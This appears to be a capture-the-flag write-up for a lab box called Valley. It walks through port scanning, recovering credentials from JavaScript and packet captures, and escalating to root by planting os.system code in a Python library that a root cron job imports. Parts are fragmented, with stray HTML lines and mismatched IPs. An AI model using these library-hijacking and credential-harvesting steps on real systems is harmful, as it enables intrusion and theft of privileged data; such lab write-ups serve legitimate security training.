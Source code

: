# Valley

## Recon


```{shell}
$ sudo nmap -p- -sS -sV -vv 10.10.109.116

[sudo] password for oriol: 
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-01 18:15 CET
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 18:15
Scanning 10.10.109.116 [4 ports]
Completed Ping Scan at 18:15, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:15
Completed Parallel DNS resolution of 1 host. at 18:15, 13.00s elapsed
Initiating SYN Stealth Scan at 18:15
Scanning 10.10.109.116 [65535 ports]
Discovered open port 80/tcp on 10.10.109.116
Discovered open port 22/tcp on 10.10.109.116
Discovered open port 37370/tcp on 10.10.109.116
Completed SYN Stealth Scan at 18:15, 20.61s elapsed (65535 total ports)
Initiating Service scan at 18:15
Scanning 3 services on 10.10.109.116
Completed Service scan at 18:15, 6.10s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.109.116.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:15
Completed NSE at 18:15, 0.23s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:15
Completed NSE at 18:15, 0.18s elapsed
Nmap scan report for 10.10.109.116
Host is up, received reset ttl 63 (0.046s latency).
Scanned at 2024-03-01 18:15:10 CET for 41s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
37370/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.58 seconds
           Raw packets sent: 65556 (2.884MB) | Rcvd: 65536 (2.621MB)

```

Apache/2.4.41 (Ubuntu) Server at 10.10.193.151 Port 80


Kevin Hughes, kevinh@eit.com, September 1995

```{html}
 <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=A">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=D">Description</a></th></tr>
```

places 

/pricing
/gallery
/static
/icons                  forbidden

inside of pricing was this note 

J,
Please stop leaving notes randomly on the website
-RP

So now we have users J and RP



PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
PUBLIC "-//IETF//DTD HTML 3.2 Final//EN">


This is had to look up:

http://10.10.19.32/static/00

dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts

/dev1243224123123 Turns out to be an admin page for the website. 

by looking at one of the javascripts in the website we can see the credentials for the admin page.

```{javascript}
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

it seems also that we have found the user siemDev and the password california

```{shell}

once inside we get the following note:

```{txt}

dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port

```

in there, we find the pcapng files which contain traffic without encryption. Specifically, in siemHTTP2.pcapng we can see the following:

```{http}
uname=valleyDev
psw=ph0t0s1234
remember=on
```

go for the lucky 

```{shell}
$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  *    * * *   root    python3 /photos/script/photosEncrypt.py

```

it seems we already have a way to elevate our privileges. since we can actually modify the script, we can add a reverse shell.

```{python}
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
	image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
	with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
	encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
	output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
	with open(output_path, "wb") as output_file:
    	  output_file.write(encoded_image_data)

```

we can't modify the script, but we can modify the images. 

```{shell}
$ find / -type f -name "*base64.*" 2>/dev/null

/usr/share/man/man1/base64.1.gz
/usr/share/mime/application/x-spkac+base64.xml
/usr/lib/python3.8/base64.py
/usr/lib/python3.8/__pycache__/base64.cpython-38.pyc
/snap/core20/1828/usr/lib/python3.8/__pycache__/base64.cpython-38.pyc
/snap/core20/1828/usr/lib/python3.8/base64.py
/snap/core20/1611/usr/lib/python3.8/__pycache__/base64.cpython-38.pyc
/snap/core20/1611/usr/lib/python3.8/base64.py

```

the permissions to get into the folder with the base64 import are located within a user that need to be elevated. 

```{shell}

$ ls -dla /usr/lib/python3.8

drwxrwxr-x 30 root valleyAdmin 20480 Mar 20  2023 ../python3.8
    
$  ls -la base64.py 

-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 base64.py

```

looking into /etc/passwd we can see the following

```{shell}
valley:x:1000:1000:,,,:/home/valley:/bin/bash
siemDev:x:1001:1001::/home/siemDev/ftp:/bin/sh
valleyDev:x:1002:1002::/home/valleyDev:/bin/bash

```
and by looking into /etc/group we can see the following

```{shell}
valleyAdmin:x:1003:valley
valleyDev:x:1002:
valley:x:1000:

```

```{shell}
$ gdb valleyAuthenticator

0x000000000049a405:	call   0x49a45a

```


valley
liberty123


```{shell}
$ ls -la /usr/lib/python3.8/base64.py 
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py
    
```

```{python}
import os

os.system('cat /root/* > /home/valley/hellothere.txt')
```

```{shell}
cat hellothere.txt 
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
```